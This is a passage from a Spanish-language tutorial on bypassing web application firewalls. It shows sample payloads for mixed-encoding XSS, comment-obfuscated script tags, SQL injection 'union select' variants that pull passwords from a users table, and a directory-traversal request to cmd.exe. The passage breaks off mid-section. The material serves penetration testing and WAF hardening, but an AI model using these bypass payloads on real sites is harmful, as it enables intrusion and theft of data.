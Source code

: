Estas reglas suelen tender a filtrar un tipo específico de codificación. Estos filtros pueden evitarse mediante cargas útiles de codificación mixta. Nuevas líneas y tabulaciones y se agregan más a la ofuscación.

**Ofuscar carga útil:**

> <A HREF="h
> 
> 
> tt p://6 6.000146.0x7.147/">XSS</A>
> 

### **6. Uso de la técnica de comentarios**

Los comentarios ofuscan los vectores de carga útil estándar. Diferentes cargas útiles tienen diferentes formas de ofuscarse.

**Bloqueado por WAF:**

> <script>confirm()</script>

**Técnica omitida:**

> <script>confirm/**/()/**/</script>

**Bloqueado por WAF:**

> /?id=1+union+select+1,2--

**Técnica omitida:**

> /?id=1+un/**/ion+sel/**/ect+1,2--

Inserte comentarios en medio de las cadenas de ataque. Por ejemplo, /*!SELECT*/ puede ser pasado por alto por el WAF pero pasado a la aplicación de destino y procesado por una base de datos mysql.

**Ejemplo en URL:**

> index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4
> 
> 
> 'union%a0select pass from users#
> 

**Ejemplo en URL:**

> index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
> 

### **7. Técnica de doble codificación**

Los filtros de Web Application Firewall tienden a codificar caracteres para proteger la aplicación web. Los filtros mal desarrollados (sin filtros de recursividad) se pueden omitir con doble codificación.

**Solicitud básica:**

> http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

**Ofuscar carga útil:**
